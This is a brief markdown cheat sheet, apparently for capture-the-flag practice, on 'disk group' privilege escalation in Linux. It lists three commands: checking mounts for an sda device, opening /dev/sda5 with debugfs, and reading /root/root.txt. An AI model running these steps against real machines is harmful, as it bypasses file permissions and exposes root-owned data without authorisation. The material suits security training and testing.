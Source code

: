 # Disk Group Privilege Escalation

## Steps:

### 1) Check which devices are run inside the machine

    cat /proc/self/mounts | grep 'sda'

### 2) If we found a device with the ext4 filesystem, this could possibly mean that it is our target's filesystem. Access it with the command

    debugfs /dev/sda5

### 3) Then you are free to roam the entire filesystem (yes, even files owned by root)

    cat /root/root.txt
